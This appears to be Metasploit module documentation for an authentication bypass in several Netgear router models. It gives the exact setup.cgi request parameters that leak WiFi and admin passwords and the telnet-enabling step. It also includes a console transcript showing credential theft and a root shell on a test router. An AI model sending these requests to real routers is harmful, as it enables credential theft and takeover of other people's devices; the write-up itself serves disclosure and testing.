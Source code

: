 ## Vulnerable Application

### Intro
This module targets an authentication bypass vulnerability in the `mini_http` binary of several Netgear Routers
running firmware versions prior to `1.2.0.88`, `1.0.1.80`, `1.1.0.110`, and `1.1.0.84`.

Specifically, a call to `strstr()` is used to check if any incoming requests to authenticated pages contain
the string `todo=PNPX_GetShareFolderList` anywhere within the request. If this string is found anywhere within
the request, the request will be marked as an authenticated request, and will be treated as though it came from
a logged in administrative user.

By using this vulnerability to send a request to `/setup.cgi` with the `next_file` GET parameter set to `BRS_swisscom_success.html`
and a `x` GET parameter set to `todo=PNPX_GetShareFolderList`, an unauthenticated attacker can leak the plaintext versions of
all of the router's WiFi passwords, as well as the admin username and plaintext admin password for the router.

Once the password has been been obtained, the exploit enables telnet on the target router by sending a request to `setup.cgi`
with the `todo` GET parameter set to `debug`. Once telnet has been enabled, it then utilizes the
`auxiliary/scanner/telnet/telnet_login` module to log into the router using the stolen credentials of the
`admin` user. This will result in the attacker obtaining a new telnet session as the `root` user.

This vulnerability was discovered and exploited by an independent security researcher who reported it to SSD.

### Affected Versions

- AC2100 prior to firmware version 1.2.0.88
- AC2400 prior to firmware version 1.2.0.88
- AC2600 prior to firmware version 1.2.0.88
- D7000 prior to firmware version 1.0.1.80
- R6220 prior to firmware version 1.1.0.110
- R6230 prior to firmware version 1.1.0.110
- R6260 prior to firmware version 1.1.0.84
- R6330 prior to firmware version 1.1.0.84
- R6350 prior to firmware version 1.1.0.84
- R6700v2 prior to firmware version 1.2.0.88
- R6800 prior to firmware version 1.2.0.88
- R6850 prior to firmware version 1.1.0.84
- R6900v2 prior to firmware version 1.2.0.88
- R7200 prior to firmware version 1.2.0.88
- R7350 prior to firmware version 1.2.0.88
- R7400 prior to firmware version 1.2.0.88
- R7450 prior to firmware version 1.2.0.88

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass`
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Verify that you get a new telnet shell as the `root` user on the target router.

## Options

## Scenarios

### Netgear AC1600 aka R6260 with Firmware Version 1.1.0.40_1.0.1
```
        msf > use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass
        msf auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > show options

        Module options (auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass):

        Name     Current Setting  Required  Description
        ----     ---------------  --------  -----------
        Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
        RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                        oit
        RPORT    80               yes       The target port (TCP)
        SSL      false            no        Negotiate SSL/TLS for outgoing connections
        VHOST                     no        HTTP server virtual host

        msf auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > set RHOSTS 192.168.1.1
        RHOSTS => 192.168.1.1
        msf auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > check

        [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
        [*] 192.168.1.1:80 - The target appears to be vulnerable.
        msf auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > exploit
        [*] Running module against 192.168.1.1

        [*] Running automatic check ("set AutoCheck false" to disable)
        [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
        [+] The target appears to be vulnerable.
        [*] Attempting to leak the password of the admin user...
        [+] Can log into target router using username admin and password theRiverOfNope123!
        [*] Attempting to retrieve /top.html to verify we are logged in!
        [*] Sending one request to grab authorization cookie from headers...
        [*] Got the authentication cookie, associating it with a logged in session...
        [+] Successfully logged into target router using the stolen credentials!
        [*] Attempting to store the stolen admin credentials for future use...
        [*] Enabling telnet on the target router...
        [+] Telnet enabled on target router!
        [*] Attempting to log in with admin:theRiverOfNope123!. You should get a new telnet session as the root user
        [*] Command shell session 1 opened (192.168.224.128:45717 -> 192.168.1.1:23) at 2021-09-23 16:38:53 -0500
        [*] Auxiliary module execution completed
        msf auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > sessions -i 1
        [*] Starting interaction with 1...



        # uname -a
        uname -a
        Linux R6260 2.6.36 #7 SMP Fri Jul 20 17:14:50 CST 2018 mips unknown

        # busybox
        busybox
        BusyBox v1.12.1 (2018-07-18 20:59:15 CST) multi-call binary
        Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko
        and others. Licensed under GPLv2.
        See source distribution for full notice.

        Usage: busybox [function] [arguments]...
        or: function [arguments]...

                BusyBox is a multi-call binary that combines many common Unix
                utilities into a single executable.  Most people will create a
                link to busybox for each function they wish to use and BusyBox
                will act like whatever it was invoked as!

        Currently defined functions:
                [, [[, arp, ash, awk, basename, bunzip2, bzcat, cat, chmod, chpasswd,
                cp, cut, date, dd, df, dmesg, echo, expr, false, fdisk, find, free,
                ftpget, grep, gzip, halt, head, hexdump, hostname, ifconfig, init,
                init, insmod, kill, killall, ln, login, ls, lsmod, md5sum, mdev,
                mkdir, mknod, more, mount, mv, netstat, nice, passwd, pidof, ping,
                ping6, poweroff, ps, pwd, reboot, renice, rm, rmmod, route, sed,
                seq, sh, sleep, sync, tail, tar, taskset, telnetd, test, tftp,
                time, top, touch, tr, traceroute, true, umount, uname, unzip, vconfig,
                vi, wc, wget

        #
```
